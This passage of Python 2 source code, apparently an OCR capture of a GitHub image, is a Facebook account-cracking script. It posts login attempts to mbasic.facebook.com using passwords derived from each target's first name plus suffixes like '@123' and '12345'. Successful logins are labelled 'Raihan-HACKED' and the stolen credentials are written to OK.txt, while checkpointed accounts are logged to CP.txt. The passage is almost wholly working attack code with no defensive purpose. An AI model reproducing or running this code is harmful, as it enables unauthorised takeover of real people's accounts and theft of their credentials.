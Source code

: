                     ok.write(uid + '|' + ps2 + '\n')
                    ok.close()
                    oks.append(uid + ps2)
                elif 'checkpoint' in sp:
                    print '\x1b[1;91m[Raihan-CHECKPOINT] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    cp = open('CP.txt', 'a')
                    cp.write(uid + '|' + ps2 + '\n')
                    cp.close()
                    cps.append(uid + ps2)
                else:
                    ps3 = name.lower().split(' ')[0] + '@123'
                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                        'email': uid,
                        'pass': ps3,
                        'login': 'submit' })
                    sp = data.content
                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                        print '\x1b[1;92m[Raihan-HACKED] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        ok = open('OK.txt', 'a')
                        ok.write(uid + '|' + ps3 + '\n')
                        ok.close()
                        oks.append(uid + ps3)
                    elif 'checkpoint' in sp:
                        print '\x1b[1;91m[Raihan-CHECKPOINT] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        cp = open('CP.txt', 'a')
                        cp.write(uid + '|' + ps3 + '\n')
                        cp.close()
                        cps.append(uid + ps3)
                    else:
                        ps4 = name.lower().split(' ')[0] + '123'
                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                            'email': uid,
                            'pass': ps4,
                            'login': 'submit' })
                        sp = data.content
                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                            print '\x1b[1;92m[Raihan-HACKED] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            ok = open('OK.txt', 'a')
                            ok.write(uid + '|' + ps4 + '\n')
                            ok.close()
                            oks.append(uid + ps4)
                        elif 'checkpoint' in sp:
                            print '\x1b[1;91m[Raihan-CHECKPOINT] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            cp = open('CP.txt', 'a')
                            cp.write(uid + '|' + ps4 + '\n')
                            cp.close()
                            cps.append(uid + ps4)
                        else:
                            ps5 = name.lower().split(' ')[0] + '12345'
                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                'email': uid,
                                'pass': ps5,
                                'login': 'submit' })
                            sp = data.content
                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                print '\x1b[1;92m[Raihan-HACKED] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                ok = open('OK.txt', 'a')
                                ok.write(uid + '|' + ps5 + '\n')
                                ok.close()
                                oks.append(uid + ps5)
                            elif 'checkpoint' in sp:
                                print '\x1b[1;91m[Raihan-CHECKPOINT] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                cp = open('CP.txt', 'a')
                                cp.write(uid + '|' + ps5 + '\n')